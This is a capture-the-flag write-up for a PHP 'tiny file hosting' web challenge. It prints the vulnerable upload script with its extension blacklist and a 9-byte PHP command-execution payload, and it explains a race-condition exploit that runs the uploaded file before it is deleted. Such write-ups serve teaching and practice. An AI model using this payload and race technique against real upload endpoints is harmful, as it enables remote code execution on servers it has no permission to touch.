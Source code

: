 # Tiny File Hosting [Web]

## Prompt
People like large file hosting service, but I created a tiny file hosting service, hope you also like it =)

`challs1.nusgreyhats.org:5207`

![Image of prompt](./screenshots/file-hosting-prompt.png)

## Files
[setup.sh](./files/setup.sh)  
[setup-cron](./files/setup-cron)

## Description
Clicking on the link to the challenge site, we are greeted with an upload file page.

![main page](./screenshots/file-hosting-page.png)

We then try to upload a file and monitor the requests it makes using our browser's inspect network tool.

![file upload](./screenshots/file-upload-page.png)

The upload seems to fail due to its size.

![network analysis](./screenshots/file-upload-fail.png)

But what's more noticable is that `/upload.php` being called, and we are able to obtain the source code by going to that address. You can see it [here](./files/upload.php) as well.

``` php
// upload.php
<?php
$uploaded = false;
define('UPLOAD_PATH', getcwd().'/upload');

if(isset($_POST['submit'])){
    $disallowed_exts = array('php','php2','php3','php4','php5','php6','php7','phps','pht','phtm','phtml','pgif','shtml','htaccess','phar');
    $file_name = $_FILES['upload_file']['name'];
    $file_size = $_FILES['upload_file']['size'];
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_ext = strtolower(substr($file_name,strrpos($file_name,".")+1));

    $upload_file = UPLOAD_PATH . '/' . $file_name;
    if ($file_size > 9) {
        echo '<META http-equiv="refresh" content="0;URL='.$_SERVER['HTTP_REFERER'].'">';
        die('<script>alert("This is file is too big for me to host on my server =(");</script>');
    }

    if (move_uploaded_file($temp_file, $upload_file)) {
        if(!in_array($file_ext, $disallowed_exts)) {
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
             rename($upload_file, $img_path);
             $uploaded = true;
        // hope you don't upload these files, I am going to delete them anyway =)
        } else {
            @unlink($upload_file);
            echo '<META http-equiv="refresh" content="0;URL='.$_SERVER['HTTP_REFERER'].'">';
            die("<script>alert('.{$file_ext} file is not allowed!')</script>");
        }
    } else {
        echo '<META http-equiv="refresh" content="0;URL='.$_SERVER['HTTP_REFERER'].'">';
        exit('<script>alert("upload error!")</script>');
    }
} else {
    highlight_file(__FILE__);
}

if ($uploaded) {
    echo '<META http-equiv="refresh" content="0;URL='.$_SERVER['HTTP_REFERER'].'">';
    echo '<script>alert("upload success")</script>';
}
?>
```

Notice a few things here:
1. There are some blacklisted extensions in `$disallowed_exts`, but `.php1` is not one of them.  
2. The file size must be `at most 9 bytes`.
3. The file is moved from a temporary location to its uploaded location, before going through the extension check.
4. The file, is allowed to be saved, will be renamed as seen by the `$img_path` variable.

Also, notice the comment:  
`// hope you don't upload these files, I am going to delete them anyway =)`

Checking the provided `setup-cron` and `setup.sh`, we can see that the files that managed to get uploaded to the specified directory will be wiped every 3 minutes. What's more interesting is that the `$flag` alias variable is echoed to a new randomly named `.txt` file in the same upload directory.

``` bash
### -- setup-cron --
*/3 * * * * root /bin/bash /root/setup.sh

### --- setup.sh ---
#!/bin/bash
. /root/.bashrc
rm /var/www/html/upload/*
rand=`tr -dc A-Za-z0-9 </dev/urandom | head -c 17`
echo $flag > /var/www/html/upload/${rand}_flag.txt
```

Thus, working with these, our first vector is to see if we can save a `.php1` or other special `.php` variants into the server and brute force the file by searching through the relatve path. Also, our payload in the file must be 9 bytes long, and hence we went with this payload from examining the possible payloads at [TODO](). We intend to grab the flag name, and then perform the search to obtain it.

``` bash
$ cat fake.php1 # contents of payload
<?=`dir`;

$ ls 
fake.php1   dummy.txt

$ php fake.php1 # test if payload works
fake.php1   dummy.txt
```

We then run a [python script](./files/feed-fake-file-and-brute.py) to test it out. The script runs and successfully obtains the file name of our saved payload, but loading that page does not run the payload. We then tried with other extensions such as `.ph>` and `.ph<` but no success seen. We then try to proceed with another possibility.

``` bash
$ python feed-fake-file-and-brute.py

START @ 7:43:6
Feeding file 'fake.php1'
GET /upload/1020210816074302.php1
GET /upload/1020210816074303.php1
# other lines omitted
GET /upload/7320210816074307.php1
PAGE FOUND
<?=`dir`;
```

Upon further research, there seems to be other CTF write-up sites 
(see [here](https://medium.com/ctf-writeups/breaking-the-competition-bug-bounty-write-up-ca7cb7bc53f5)
or [here](https://www.fatalerrors.org/a/0N111zE.html)) that shows a very similar challenge with very similar server `php` script.
They call this challenge as a **Race Condition Challenge**. In summary, a `.php` with our payload is required to be fed and called upon before removal/unlinking. Seeing the `php` snipped below, you can see how there is a small window where the file is moved to the location with its original naming. The extension is then checked and will fail, jumping to the else block to unlink. 

``` php
// snippet from upload.php
if (move_uploaded_file($temp_file, $upload_file)) { // --- file with original name exists from here
    if(!in_array($file_ext, $disallowed_exts)) { 
        $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
        rename($upload_file, $img_path);
        $uploaded = true;
    } else {
        @unlink($upload_file);                      // --- to here (if-check fails and jumps to else block)
        echo '<META http-equiv="refresh" content="0;URL='.$_SERVER['HTTP_REFERER'].'">';
        die("<script>alert('.{$file_ext} file is not allowed!')</script>");
    }
}
```

That small window is where the file will exist for us to call upon. We shall use the same `php` [payload](./files/file.php), but rename it to `file.php`.

``` php
// file.php
<?=`dir`;
```

So our plan is to craft a way to feed the same payload repeatedly using `POST /upload.php`, and run a concurrent file retrieval using `GET /upload/file.php`

Hence, we crafted a new [python script](./files/not-so-tiny-file-thread.py) to run this race condition - while varying the number of threads and loops per thread. We managed to get the php file, load it to run the payload, obtain the flag's file name, and finally get the flag!

``` bash
$ python not-so-tiny-file-thread.py
PAGE FOUND
upload/gAjY7keWTDLeb4poP_flag.txt

greyhats{h0vv_d1d_y0u_byp455_17?!?!}
```

## Flag
`greyhats{h0vv_d1d_y0u_byp455_17?!?!}`